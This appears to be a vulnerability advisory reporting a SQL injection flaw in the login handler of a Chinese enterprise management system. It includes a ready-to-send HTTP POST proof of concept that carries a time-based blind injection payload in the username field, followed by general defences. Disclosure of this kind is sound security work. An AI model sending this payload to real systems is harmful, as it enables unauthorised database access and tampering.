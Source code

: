超易企业管理系统 sql注入漏洞

SQL injection exists in super easy enterprise management system. ‌SQL Injection vulnerability is a security vulnerability attack technique that targets database-driven applications. Attackers achieve illegal access to and manipulation of databases by inserting or "injecting" malicious SQL code into the application's input fields. The main reason for the formation of this vulnerability is that in the process of data interaction, when the front-end data is passed into the back-end, there is no strict verification filter, resulting in the incoming "data" spliced into the SQL statement, which is executed by the database as part of the SQL statement. This makes the data face a series of hazards such as dewarehousing, malicious destruction and tampering, and even the whole system authority fall. The essence of injection attacks is to execute user input data as code. There are two key conditions for injection attacks: the user can control the input, and the input is directly concatenated into the SQL query statement

indes 

![7](7.png)

POST data

```
POST /ajaxpro/cySoft.Index,cySoft.ashx HTTP/1.1
Host: 127.0.0.1:8092
Content-Length: 57
X-AjaxPro-Method: Login
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"strUser":"admin' WAITFOR DELAY '0:0:20'-- ","strPwd":""}
```

![1](6.png)

Methods of defending against SQL injection include:

Use Preparedstatements, which have built-in capabilities to handle SQL injection.
Strengthen the verification and filtering of user input to ensure the security of data input.
Parameter value passing: Do not write variables directly into SQL statements. You must pass related variables by setting corresponding parameters.
Use security parameters: Set specific SQL security parameters during database design.
The permissions of common users and system administrators should be strictly distinguished to avoid giving unnecessary database permissions.
Hierarchical management: Strictly controls user permissions and grants only necessary operation permissions.